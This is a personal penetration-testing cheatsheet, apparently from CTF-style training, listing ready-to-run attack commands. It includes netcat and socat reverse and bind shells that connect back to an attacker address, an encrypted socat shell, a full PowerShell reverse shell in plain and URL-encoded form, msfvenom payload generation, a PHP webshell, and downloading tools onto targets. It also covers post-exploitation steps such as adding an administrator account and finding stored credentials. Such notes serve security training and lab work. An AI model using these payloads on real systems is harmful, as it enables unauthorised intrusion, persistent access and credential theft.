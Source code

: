 #Shells #Cheatsheet  
## Netcat Shell Stabilisation

Only rlwrap is stable for Windows machines

### Python

1. `python[2/3] -c 'import pty;pty.spawn("/bin/bash")'` - For interactive shell.
2. `export TERM=xterm` - For term commands like clear.
3. Ctrl + Z - To background the sell which turns off the terminal echo (gives autocompletes, arrow keys and Ctrl + C).
4. `stty raw -echo; fg` - To foreground the shell

`reset` - To bring back the terminal echo so input in our own terminal will be visible

### rlwrap

`rlwrap nc -lvnp <port>`

In Linux: Ctrl + Z than `stty raw -echo; fg`

### Socat

`sudo python3 -m http.server 80` - In the attacking machine.

`wget <LOCAL-IP>/socat -O /tmp/socat` - In the netcat shell of Linux target machine.

`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` - Or with the WebRequest system class in the netcat shell of Windows target machine

### Change tty size

For running things like text editor.

`stty -a` - In another terminal.

`stty rows <number>` and `stty cols <number>` - The number of rows and cols from the previous command

## Socat
### Reverse shells

`socat TCP-L:<port> -` - Basic reverse shell

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` - Command in windows to connect back.
We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` - Command in Linux to connect back

### Bind shells

`socat TCP-L:<PORT> EXEC:"bash -li"` - on a Linux target

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes` - On a Windows target

`socat TCP:<TARGET-IP>:<TARGET-PORT>` - On the attacking machine to connect to the waiting listener

## Fully interactive reverse shell

Only works for target Linux machines

``socat TCP-L:<port> FILE:`tty`,raw,echo=0`` - On the attacking machine

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` - On the target Linux machine

### Encrypted shells

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` - Generate a certificate

`cat shell.key shell.crt > shell.pem` - Merge the 2 files into 1 pem file

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` - To set up a reverse shell

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash` - To connect back

For bind shell:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes` - Target

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -` - Attacker

Fully interactive reverse shell:
`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0` - Attacker

`socat OPENSSL:10.13.31.71:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane` - Target

## Common shell payloads

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` - To create a bind shell listener on Linux (target)

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` - To send a netcat reverse shell (target)

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` - Powershell reverse shell

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - Other useful shells

## msfvenom

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>` - Generate a Windows x64 reverse shell

`<OS>/<arch>/<payload>` - Payload naming system (without the arch for Windows x32)
the payload part is with a _ for when it's a stageless shell and with / for when it's a staged reverse shell for example `windows/x64/meterpreter_reverse_tcp` and `windows/x64/meterpreter/reverse_tcp`

`msfvenom --list payloads` - List all payloads

## Metasploit multi/handler

`msfconsole` - Open metasploit

`use multi/handler`

`options`

`exploit -j` - Run as a job in the background, will get a reverse shell when the msfvenom file is executed

`sessions 1` - To foreground the session

## Webshells

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` - A basic websehll, `?cmd=` after the file name

`/usr/share/webshells` - Location for webshells

`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22` - Encrypted Powershell shell

## Next steps

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`  
. These can be MD5 hashes or in plaintext, depending on the version.

After Obtaining a shell running as administartor:
`net user <username> <password> /add` - To create a new user

`net localgroup administrators <username> /add` - To add him to the administrators group

`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.192.63 /u:Administrator /p:'TryH4ckM3!'` - Connect to RDP in Linux #rdp
	
	
	
[Pentest Monkey reverse shell for Webshell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
	
	
	
	
	
	
	
	
	
#shell
#cheatsheet